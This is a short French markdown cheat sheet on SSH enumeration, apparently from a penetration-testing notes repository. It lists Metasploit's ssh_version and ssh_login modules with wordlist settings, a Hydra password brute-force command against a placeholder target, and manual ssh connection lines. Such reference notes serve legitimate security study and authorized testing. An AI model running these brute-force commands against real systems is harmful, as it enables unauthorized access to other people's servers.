 # 🔐 Énumération SSH

[🏠 Accueil](../README.md) | [🌐 HTTP](http-web.md) | [📁 SMB](smb-samba.md) | [📂 FTP](ftp.md) | [🗄️ MySQL](mysql.md) | [📧 SMTP](smtp.md) | [📤 WebDAV](webdav.md)

## Port par défaut : 22

## Metasploit Modules
```bash
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
    set STOP_ON_SUCCESS true
    set VERBOSE true
```

## Hydra Bruteforce
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

## Connexion manuelle
```bash
ssh user@targetIP
ssh -p 2222 user@targetIP  # Port non-standard
```
